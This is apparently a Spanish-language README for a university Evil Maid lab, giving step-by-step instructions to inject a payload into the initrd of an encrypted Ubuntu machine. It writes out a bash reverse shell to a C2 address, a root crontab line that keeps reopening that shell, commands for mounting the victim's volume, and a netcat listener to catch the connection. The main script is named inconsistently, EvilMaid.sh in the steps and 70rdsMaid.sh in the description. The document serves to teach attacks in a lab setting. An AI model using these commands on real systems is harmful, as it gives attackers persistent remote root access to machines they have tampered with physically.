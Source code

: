 ### Pasos en Linux Lite (Etapa de Inyección)
![](Tarea%201%20Evil%20Maid/Screenshot%202025-05-25%20at%2011.26.04%E2%80%AFAM.png)
1. Descargar o clonar el repositorio del ataque desde: ~[https://github.com/ExplosiveGalloPinto/EvilMaid-Lab](https://github.com/ExplosiveGalloPinto/EvilMaid-Lab)~
2. Extraer el contenido y acceder al directorio donde se encuentran los siguientes archivos:
   * EvilMaid.sh
   * edit.py
   * payload.txt → **Importante: editar este archivo con la IP del atacante**
     * **Desglose de payload.txt**
       * **Reverse Shell**
         * `bash -i >& /dev/tcp/C2_IP_ADDRESS/PORT 0>&1`
       * **Job de Crontab (opcional para persistencia)**
         * `echo -e "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/C2_IP_ADDRESS/PORT 0>&1'" >> /tmp/etc/crontab`
       * **(Previamente montar el sistema cifrado de la víctima si es necesario)**
         * `mount /dev/mapper/ubuntu--vg-root /tmp`
         * `umount /tmp`

* Otorgar permisos de ejecución al script y luego ejecutarlo en terminal
  * `chmod +x EvilMaid.sh`
  * `./EvilMaid.sh`
* Una vez finalizada la inyección, apagar la máquina virtual y retirar el USB.
* Encender nuevamente la maquina victima Ubuntu 14.04.3 y nos movemos a los pasos de Kali Linux

### Pasos en Kali Linux (Recepción del Shell)
![](Tarea%201%20Evil%20Maid/Screenshot%202025-05-25%20at%2012.10.53%E2%80%AFPM.png)
1. Iniciar Kali Linux (2022.1 o 2025.1c en modo Live).
2. Preparar el entorno de escucha ejecutando en la terminal:
   * `nc -lvnp PORT`
3. Esperar la conexión entrante del shell reverso, confirmando que el módulo fue cargado correctamente.

### Video tutorial
* https://www.youtube.com/watch?v=aoToKGCmhbw

## Descripción del Ataque

El ataque **Evil Maid** explota el acceso físico al dispositivo para insertar un payload malicioso en el proceso de arranque. Es eficaz si no hay Secure Boot o protección física contra escritura [2]. 

En este laboratorio universitario, el ataque fue implementado como un proyecto ****con fines exclusivamente educativos y de análisis académico****, sin intención de comprometer sistemas reales o ajenos.

### Implementación del Ataque

El proceso automatizado del ataque fue desarrollado mediante los siguientes componentes:

- `70rdsMaid.sh`: Script principal en Bash que automatiza todo el proceso de inyección. Entre sus funciones:
  - Monta la partición `/boot` del sistema víctima.
  - Extrae el contenido del `initrd.img` usando `lsinitrd`.
  - Inyecta un payload malicioso dentro del script `cryptroot` con ayuda de un script Python auxiliar.
  - Reconstruye el `initrd.img` con el payload persistente incluido.
  - Imprime un mensaje ASCII con `figlet` como firma visual del experimento académico.
